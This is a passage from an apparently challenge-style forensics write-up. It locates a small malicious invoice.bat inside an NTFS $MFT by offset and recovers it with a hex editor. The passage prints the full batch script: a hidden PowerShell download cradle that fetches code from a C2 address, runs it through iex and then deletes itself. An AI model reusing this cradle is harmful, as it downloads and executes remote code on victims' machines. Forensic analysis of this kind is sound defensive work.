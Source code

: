 ## Recover Malicious bat

### Background

NFTS stores data about each file in a record that is 1024 bytes (1 kb) long. Files that are small enough (typically around 900 bytes) are stored in the MFT, using the extra space that’s already reserved and saving the trouble of having to go out to disk to get it.

### Identify Offset

Looking at the `invoice.bat` file, the size of the file is 286 bytes. That means that the file should be stored entirely in the MFT.

To get the offset in the MFT for the file in question, I’ll look at the “Entry Number” for that file:

[![image-20240414161828259](/img/image-20240414161828259.png)*Click for full size image*](/img/image-20240414161828259.png)

Each entry is 1024 bytes, so that offset to this file is 23436 \* 1024 = 23998464 = 0x16E3000 (Task 5).

### Get File Contents

I’ll open the `$MFT` file in HxD (a nice Windows Hex editor) and go (Ctrl-G) to the offset 0x16E3000:

[![image-20240414162600092](/img/image-20240414162600092.png)*Click for full size image*](/img/image-20240414162600092.png)

The filename and raw data are immediately visible. The other metadata includes all the timestamps and permissions data, but in a binary format that’s not human readable.

I’ll copy out the `.bat` file text:

```

@echo off
start /b powershell.exe -nol -w 1 -nop -ep bypass "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://43.204.110.203:6666/download/powershell/Om1hdHRpZmVzdGFW9uIGV0dw==') -UseBasicParsing|iex"
(goto) 2>nul & del "%~f0"

```

This script is starting by turning off echo, to not print commands run to the screen. Then it runs a PowerShell cradle that will issues a request to `http://43.204.110.203:6666` and download a file, passing what comes back to `iex` (short for `Invoke-Expression`). The C2 IP and port are 43.204.110.203:6666 (Task 6).

### Binary Files

It turns out that many of the files in question here are smaller than 900 bytes. For example, `invoice.zip` is 433 bytes. I can get the offset the same way:
